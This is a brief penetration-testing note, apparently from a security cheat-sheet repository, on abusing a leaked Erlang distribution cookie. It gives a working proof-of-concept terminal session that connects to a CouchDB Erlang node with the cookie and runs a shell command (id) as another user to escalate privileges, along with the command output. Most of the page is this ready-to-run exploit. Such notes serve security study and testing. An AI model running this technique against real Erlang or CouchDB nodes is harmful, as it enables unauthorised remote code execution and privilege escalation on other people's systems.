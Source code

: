 # Erlang

## Authentication Cookie RCE

If the authentication cookie for an Erlang node is leaked, then you can take advantage of this to achieve RCE.  Typically this will be via local port tcp/4369.  The following PoC connects to a local node with a cookie of cookieval, and then spawns a command on an adjacent node with the same cookie value.  If the adjacent node is run by `mainuser` then we achieve privilege escalation.

```
otheruser@booj:/$ export HOME=/tmp
export HOME=/tmp
otheruser@booj:/$ erl -sname booj -setcookie cookieval -remsh couchdb@localhost
<me booj -setcookie cookieval -remsh couchdb@localhost
Eshell V7.3 (abort with ^G)
(booj@booj)1> net_adm:ping(couchdb@localhost).
net_adm:ping(couchdb@localhost).
pong
(booj@booj)2> spawn(couchdb@localhost, fun() -> io:format("~p~n", [os:cmd('/usr/bin/id')]) end).
spawn(couchdb@localhost, fun() -> io:format("~p~n", [os:cmd('/usr/bin/id')]) end).
"uid=1000(mainuser) gid=1000(mainuser) groups=1000(mainuser)\n"
<6881.23434.8>
```

### Further Reading

[https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/](https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/)

